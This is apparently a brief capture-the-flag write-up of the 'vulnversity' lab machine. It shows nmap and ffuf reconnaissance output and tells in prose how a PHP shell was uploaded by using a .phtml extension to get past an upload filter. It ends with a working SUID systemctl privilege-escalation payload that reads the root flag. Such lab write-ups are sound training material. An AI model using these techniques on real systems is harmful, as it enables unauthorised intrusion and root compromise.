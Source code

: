 target : vulnversity
recon :
$ nmap -sCV -A -Pn --open --min-rate 10000 10.10.9.85 
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/4%OT=21%CT=1%CU=34635%PV=Y%DS=2%DC=T%G=Y%TM=64CD24B4
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=2%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-08-04T12:17:35-04:00
| smb2-time: 
|   date: 2023-08-04T16:17:36
|_  sta
rt_date: N/A
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   177.22 ms 10.8.0.1
2   181.44 ms 10.10.9.85


found website on port 3333. try to fuzz directory
└─# ffuf -u http://10.10.9.85:3333/FUZZ -w /usr/share/wordlists/dirb/common.txt 
found : 
internal                [Status: 301, Size: 318, Words: 20, Lines: 10]
css                     [Status: 301, Size: 313, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 315, Words: 20, Lines: 10]
images                  [Status: 301, Size: 316, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 33014, Words: 8161, Lines: 653]
internal                [Status: 301, Size: 318, Words: 20, Lines: 10]
js                      [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]


in /internal i found upload session. now try to upload some php 
php extension is not allowed try to bypass it now.
shell uploaded using .phtml
now http://10.10.9.85:3333/internal/uploads/ and launch it 
PrivEsc
$ find / -perm /4000 2>/dev/null | grep -v " Permission denied"
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs

gtfobins  if found this https://gtfobins.github.io/gtfobins/systemctl/

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/lis"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF